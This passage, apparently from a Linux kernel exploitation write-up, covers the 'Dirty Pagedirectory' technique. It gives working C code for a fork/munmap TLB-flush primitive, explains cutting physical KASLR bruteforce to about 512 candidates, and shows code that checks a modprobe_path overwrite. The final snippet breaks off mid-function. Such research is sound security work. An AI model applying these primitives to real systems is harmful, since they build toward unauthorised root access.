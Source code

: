 ## TLB flushing with PCID enabled

One of the things required for Dirty Pagedirectory is a working TLB flushing primitive. Assuming the target VMA is shared, we can fork() and munmap() that VMA in the child. This allows for 100% working TLB flushing regardless of PCID, without altering the original pagetables. I presume the CPU needs to be pinned, to avoid flushing an incorrect CPU core's TLB cache.

The code for this looks like:

```c
#define SPINLOCK(cmp) while (cmp) { usleep(10 * 1000); }

// presumably needs to be CPU pinned
static void flush_tlb(void *addr, size_t len)
{
	short *status;

	status = mmap(NULL, sizeof(short), PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	
	*status = FLUSH_STAT_INPROGRESS;
	if (fork() == 0)
	{
		munmap(addr, len);
		*status = FLUSH_STAT_DONE;
		sleep(9999);
	}

	SPINLOCK(*status == FLUSH_STAT_INPROGRESS);

	munmap(status, sizeof(short));
}
```

Note that the child sleeps instead of exits, to avoid certain kernel bugs when doing dirty pagedirectory.

## Easing physical KASLR bruteforce

It is possible to ease physical KASLR bruteforcing. The Linux kernel base is aligned to `CONFIG_PHYSICAL_START` (and/or `CONFIG_PHYSICAL_ALIGN`) bytes. This essentially means the Linux kernel must be aligned to 16MiB or 2MiB, reducing the amount of possible base addresses from e.g. 8GiB addresses (assuming 8GiB physical memory) to 512 addresses (a bruteforcable amount).

## Validating the correct modprobe_path

We can validate if we found the correct `modprobe_path` object in physical memory (when using Dirty Pagedirectory), by checking if the output of `/proc/sys/kernel/modprobe` has changed to the new value, since it is a "real-time" reference to the `modprobe_path` object used in the kernel. 

For example, this can be done with:

```c
static int get_modprobe_path(char *buf, size_t buflen)
{
	int size;

	size = read_file("/proc/sys/kernel/modprobe", buf, buflen);

	if (size == buflen)
		printf("[*] ==== read max amount of modprobe_path bytes, perhaps increment KMOD_PATH_LEN? ====\n");

	// remove \x0a
	buf[size-1] = '\x00';

```